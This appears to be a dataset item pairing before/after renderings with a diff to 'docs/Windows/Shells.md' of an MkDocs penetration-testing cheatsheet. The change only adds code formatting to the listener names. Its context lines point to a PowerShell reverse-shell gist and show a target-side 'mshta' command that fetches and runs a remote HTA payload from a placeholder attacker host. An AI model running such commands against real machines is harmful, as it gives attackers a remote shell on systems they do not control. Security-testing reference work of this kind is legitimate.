

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Shells.md, in a window 1280 px wide and 900 px high, scrolled down 1121 px. Shown: the part 358-631 px from the top of the window. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

````diff
--- a/docs/Windows/Shells.md
+++ b/docs/Windows/Shells.md
@@ -59,7 +59,7 @@ These are just some of the ways
             ```
         * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
             * Modify to change IP Address and port of reverse shell listener
-    1. On your Kali, Run your reverse shell listener (msf exploit/multi/hanlder or nc)
+    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
     1. On the target machine, execute:
         ```batch
         mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
````
